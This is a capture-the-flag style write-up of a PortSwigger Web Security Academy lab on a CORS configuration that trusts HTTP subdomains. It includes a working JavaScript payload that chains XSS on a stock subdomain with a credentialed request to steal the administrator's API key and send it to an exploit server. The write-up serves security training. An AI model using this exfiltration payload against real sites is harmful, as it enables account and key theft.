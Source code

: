 This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

We can see that the request is being sent, which may include CORS:
![](imgs/cors_trusted_http_protocol.png)

Retrieving the contents from a subdomain is allowed:
![](imgs/cors_trusted_http_protocol-1.png)
And indeed, is reflected in the ACAO header.

We have a functionality that is running over HTTP (plain), and it is the "check stock" functionality, which is made to a subdomain:
![](imgs/cors_trusted_http_protocol-2.png)

If we get a XSS in this subdomain, we can get the API key in clear text. We just create a script like the previous ones, but in the vulnerable XSS field:
```javascript
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

This script will made the victim perform the XSS attack, retrieve the API key as the CORS misconfiguration allows it, and send the result to our exploit server.
![](imgs/cors_trusted_http_protocol-3.png)

We can get the info in the history:
![](imgs/cors_trusted_http_protocol-4.png)